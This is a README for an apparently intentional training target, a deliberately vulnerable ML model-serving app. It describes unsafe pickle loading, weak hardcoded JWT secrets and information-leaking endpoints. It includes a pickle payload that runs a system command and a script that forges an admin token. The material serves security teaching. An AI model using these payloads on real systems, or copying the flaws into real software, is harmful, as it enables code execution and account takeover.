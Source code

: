 # Damn Vulnerable Model Context Protocol (DVMCP)

DVMCP is a deliberately vulnerable application designed to demonstrate common security issues in ML model serving systems. It is intended for educational purposes to help security researchers and developers understand and learn about potential vulnerabilities in AI/ML systems.

**WARNING**: This application contains intentional security vulnerabilities. DO NOT deploy it in a production environment or expose it to the public internet.

## Installation

1. Clone this repository
2. Install dependencies:
```bash
pip install -r requirements.txt
```
3. Run the server:
```bash
python app.py
```

## Vulnerabilities

The application contains several intentional vulnerabilities:

### 1. Unsafe Model Deserialization (CWE-502)
- Endpoint: `/api/v1/model/load`
- The application accepts serialized model data using Python's pickle format
- No validation is performed on the deserialized content
- Attackers can execute arbitrary code through crafted pickle data

### 2. Model Input Injection (CWE-74)
- Endpoint: `/api/v1/model/predict`
- No input validation or sanitization
- Potential for model poisoning attacks
- Possibility of denial of service through malformed inputs

### 3. Weak Authentication (CWE-287)
- Endpoint: `/api/v1/admin/token`
- Hardcoded credentials
- Predictable token generation
- Weak secret key

### 4. Information Disclosure (CWE-200)
- Endpoint: `/api/v1/model/metadata`
- Leaks sensitive information about models
- Exposes memory addresses and internal attributes
- No access control

## Example Attacks

### Deserialization Attack
```python
import pickle
import os

class Evil:
    def __reduce__(self):
        return (os.system, ('id',))

with open('evil.pkl', 'wb') as f:
    pickle.dump(Evil(), f)
```

### Token Generation Attack
```python
import jwt

# Using the known secret key
token = jwt.encode(
    {'username': 'attacker', 'role': 'admin'},
    'very_vulnerable_secret_key',
    algorithm='HS256'
)
```

## Security Measures (In Real Systems)

1. Never use pickle for model serialization in production
2. Implement proper input validation and sanitization
3. Use strong authentication mechanisms
4. Implement proper access control
5. Use secure model serving frameworks
6. Implement rate limiting
7. Use proper error handling that doesn't leak sensitive information

## Disclaimer

This application is for educational purposes only. The vulnerabilities are intentional and should be used only in a controlled environment for learning about AI/ML system security. 